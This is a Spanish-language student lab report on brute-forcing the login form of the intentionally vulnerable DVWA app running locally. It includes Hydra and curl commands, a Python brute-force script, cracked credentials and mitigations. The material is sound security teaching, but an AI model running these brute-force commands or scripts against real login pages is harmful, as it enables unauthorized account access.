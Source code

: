 # Informe Laboratorio 2 – DVWA (Damn Vulnerable Web App)

**Autor:** Felipe Cuevas  
**Fecha:** Septiembre 2025  
**Correo:** felipe.cuevas1@mail.udp.cl

---

## Descripción del laboratorio

En este laboratorio se realizaron pruebas de seguridad web sobre la aplicación vulnerable **DVWA**, específicamente sobre el módulo de **Brute Force**. Las herramientas empleadas fueron:

- Docker (para desplegar DVWA)  
- Burp Suite (proxy y ataque de fuerza bruta)  
- cURL (accesos válidos e inválidos)  
- Hydra (ataque de fuerza bruta automático)  
- Python (`requests`) para script de fuerza bruta  

Se obtuvieron resultados en forma de credenciales válidas, análisis de tráfico y comparación de herramientas.

---

## Contenido del repositorio

```

  ├─ levantamiento.png
  ├─ redireccion.png
  ├─ consultaproxy.png
  ├─ campos2.3.png
  ├─ prompt.png
  ├─ usuariosdiccionario.png
  ├─ passworddiccionario.png
  ├─ par1.png
  ├─ par1v2.png
  ├─ par1response.png
  ├─ par2.png
  ├─ par2v2.png
  ├─ par2response.png
  ├─ login.png
  ├─ php.png
  ├─ usodecurl.png
  ├─ welcome.png
  ├─ accesoinvalido.png
  ├─ lengthinvalido.png
  ├─ Lengthvalida.png
  ├─ hydracredencialn1.png
  ├─ gordonb.png
  ├─ hydracredencialn2.png
  └─ 1337.png

Docker-compose.yml  
usuarios.txt  
passwords.txt  
hydra_results.txt  
acceso_valido_low.txt  
acceso_invalido_low.txt  
script_bruteforce.py
```

---

## Procedimiento resumido

### 1. Despliegue de DVWA con Docker

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
sudo docker-compose up -d
sudo docker ps
```

- Contenedores: `db` (MySQL) y `dvwa` (Apache + PHP)  
- Acceso: [http://localhost:4280](http://localhost:4280)  

![Levantamiento de DVWA](levantamiento.png)

---

### 2. Obtención de consultas con Burp Suite

- Configuración de proxy y navegador  
- Captura de petición GET al formulario de login  
- Identificación de campos: `username` y `password`  
- Generación de diccionarios con IA  
- Ejecución de ataque Intruder → obtención de pares válidos:

| Usuario | Contraseña |
|---------|------------|
| 1337    | Charley    |
| pablo   | letmein    |

![Consulta proxy](consultaproxy.png)

---

### 3. Accesos válidos e inválidos con cURL

```bash
curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=letmein&Login=Login" > acceso_valido_low.txt

curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=pablito&Login=Login" > acceso_invalido_low.txt
```

Diferencias clave entre respuestas:

- Mensaje de autenticación  
- Imagen de perfil del usuario  
- Tamaño del contenido (Content-Length)  
- Inclusión del nombre de usuario en HTML  

![Acceso válido](Lengthvalida.png)  
![Acceso inválido](lengthinvalido.png)

---

### 4. Ataque de fuerza bruta con Hydra

```bash
hydra -L usuarios.txt -P passwords.txt localhost http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low;PHPSESSID=<ID>:F=Username and/or password incorrect" \
-V -s 4280 -o hydra_results.txt
```

Credenciales obtenidas:

| Usuario  | Contraseña |
|----------|------------|
| gordonb  | abc123     |
| 1337     | charley    |

![Hydra credenciales](hydracredencialn1.png)

---

### 5. Script de fuerza bruta en Python

- Librería: `requests`  
- Itera sobre listas de usuarios y contraseñas  
- Mantiene sesión con cabecera `Cookie`  
- Detecta respuestas válidas comparando contenido HTML  

```python
import requests

url = "http://localhost:4280/vulnerabilities/brute/"
cookies = {"security":"low","PHPSESSID":"<ID>"}
usuarios = ["1337", "pablo"]
passwords = ["charley", "letmein"]

for u in usuarios:
    for p in passwords:
        r = requests.get(url, params={"username":u,"password":p,"Login":"Login"}, cookies=cookies)
        if "Welcome" in r.text:
            print(f"Usuario: {u}, Contraseña: {p}")
```

---

### 6. Comparación de herramientas

| Herramienta | Ventajas | Desventajas |
|------------|----------|-------------|
| Burp Suite | Preciso, analiza tráfico, permite modificar peticiones | Lento en ataques masivos |
| cURL       | Rápido, control manual | Laborioso para pruebas múltiples |
| Hydra      | Muy rápido, ataques concurrentes | Detectable por WAF, menos control |
| Python     | Flexible, personalizable | Rendimiento intermedio |

---

## Métodos de mitigación de fuerza bruta

1. Limitación de intentos de login  
2. Captchas o validaciones humanas  
3. Bloqueo temporal de cuentas tras múltiples fallos  
4. Uso de autenticación multifactor (2FA)

---

## Referencias

- DVWA: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)  
- Burp Suite Community: [https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)  
- Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
